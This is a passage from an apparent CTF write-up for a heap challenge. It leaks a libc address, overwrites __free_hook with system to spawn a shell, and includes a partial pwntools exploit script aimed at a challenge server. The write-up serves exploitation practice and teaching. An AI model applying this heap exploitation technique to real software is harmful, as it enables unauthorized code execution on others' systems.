 ```python

# free it to get a unsorted bin
remove(1)
```
### Step 3: Leak libc address
Then, we padding the first chunk to leak and get the libc_base address
```python
view(0)
p.recvuntil("A"*0x20)
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x1ebbe0

info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
info(f"free_hook: {hex(free_hook)}")
```
### Step 4: Get shell
The last step is edit the first to write __free_hook to victim chunk and edit the victim with system to get shell
```python
payload = p64(free_hook) * 24
edit(0, payload)

edit(2, p64(system))
remove(5)
```

Full exploit script:
```python
from pwn import *

TARGET = './heap'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 28359
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    libc = ELF('./libc-2.31.so')
else:
    p = process(TARGET, env={"LD_PRELOAD": "./libc-2.31.so"})
    libc = elf.libc
    gdbscript = '''
    c
    heap chunks
    heap bins'''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#---

def add(size, data):
    p.sendlineafter("$", "1")
    p.sendlineafter("Enter the message size for the user :", str(size))
    p.sendafter("Input message content >>", data)
def view(idx):
    p.sendlineafter("$", "2")
    p.sendlineafter("Want to check the message of which user?", str(idx))
def edit(idx, data):
    p.sendlineafter("$", "3")
    p.sendlineafter("Which user?", str(idx))
```
